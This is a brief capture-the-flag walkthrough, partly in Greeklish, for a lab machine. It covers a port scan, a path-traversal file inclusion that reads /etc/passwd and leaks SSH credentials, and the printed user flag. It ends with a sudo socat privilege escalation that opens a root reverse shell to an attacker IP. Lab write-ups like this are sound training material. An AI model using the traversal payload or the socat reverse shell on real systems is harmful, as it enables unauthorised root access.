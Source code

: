 <pre>
Machine IP: 10.10.119.102


Enum:


Open ports :
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux;protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)



Got  to the vuln url: http://10.10.119.102/article?name=lfiattack

Type on browser : http://10.10.119.102/article?name=../../../../../../etc/passwd
Right click and view page source code

#falconfeast:rootpassword creds for ssh connection!

ssh falconfeast@10.10.119.102 pwd -> rootpassword

Ls and cat user.txt:60989655118397345799

Priv esc:

falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat

Edw vlepoyme oti exoyme to socat ena pio powerfull version toy netcat poy mporoyme na to trexoyme ws root me sudo..
Anoigoyme ena listener gia na kanoyme revshell: socat file:`tty`,raw,echo=0 tcp-listen:1234
 
Kai meta trexoyme ayto: sudo socat tcp-connect:10.9.199.66:1234 exec:bash,pty,stderr,setsid,sigint,sane

Kai exome root gia na paroyme to flag mas..
Cat /root/root.txt
</pre>
